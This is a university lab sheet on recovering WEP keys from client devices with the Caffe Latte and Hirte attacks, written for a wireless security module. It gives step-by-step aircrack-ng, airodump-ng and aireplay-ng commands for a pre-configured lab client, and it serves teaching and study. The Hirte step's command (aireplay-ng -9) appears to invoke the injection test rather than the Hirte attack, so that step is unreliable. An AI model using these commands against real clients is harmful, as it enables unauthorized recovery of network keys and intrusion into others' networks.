 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Caffe Latte & Hirte Attacks on WEP Clients  
**Author:** Dr Ayman El Hajjar  

---

# Lab Activity: Exploiting WEP Clients via Caffe Latte and Hirte Attacks

---

### Objective

This lab demonstrates how attackers can recover a WEP key **from a client device** rather than the access point, using **Caffe Latte** and **Hirte techniques**. These attacks exploit unassociated WEP clients that are configured to auto-connect.

---

## Background

- **Caffe Latte Attack**: Targets WEP clients sending probe requests. The attacker mimics a known SSID and triggers ARP replay from the victim.
- **Hirte Attack**: Similar to Caffe Latte but more aggressive, injecting packets into the victim’s system and collecting encrypted responses.

Both techniques recover WEP keys **without needing the AP**.

---

## Requirements

- A wireless card supporting injection and monitor mode
- A pre-configured WEP client (e.g. Raspberry Pi or laptop)
- Tools: `aircrack-ng`, `mdk4`, `aireplay-ng`, `airodump-ng`

---

## Step-by-Step Instructions

### 1. Enable Monitor Mode

```bash
sudo airmon-ng start wlan0
```

---

### 2. Discover WEP Probe Requests

Use `airodump-ng` to identify clients sending WEP probe requests:

```bash
sudo airodump-ng --encrypt WEP wlan0mon
```

Look for **stations** probing for known SSIDs with encryption WEP.

---

### 3. Run the Caffe Latte Attack

Spoof the target SSID and launch a Caffe Latte session:

```bash
sudo aireplay-ng -6 -b <fake_bssid> -h <client_mac> wlan0mon
```

This will inject packets and try to capture enough IVs for cracking.

---

### 4. Run the Hirte Attack

```bash
sudo aireplay-ng -9 -T 1 -b <fake_bssid> -h <client_mac> wlan0mon
```

This is more aggressive and triggers ARP replay on the client side.

---

### 5. Crack the Captured Packets

```bash
sudo aircrack-ng -b <fake_bssid> hirte-capture*.cap
```

---

## Cleanup

```bash
sudo airmon-ng stop wlan0mon
```

---

## Optional Screenshots

Store in `tasks/img/`:
- airodump-ng showing WEP probe requests
- aireplay-ng session (caffe latte / hirte)
- aircrack-ng output with cracked key

---

## Summary

| Phase     | Tool           | Purpose                                     |
|-----------|----------------|---------------------------------------------|
| Scan      | `airodump-ng`  | Identify WEP clients sending probes         |
| Caffe     | `aireplay-ng`  | ARP replay from client to collect IVs       |
| Hirte     | `aireplay-ng`  | Inject into client and trigger responses    |
| Crack     | `aircrack-ng`  | Recover WEP key from .cap file              |

---
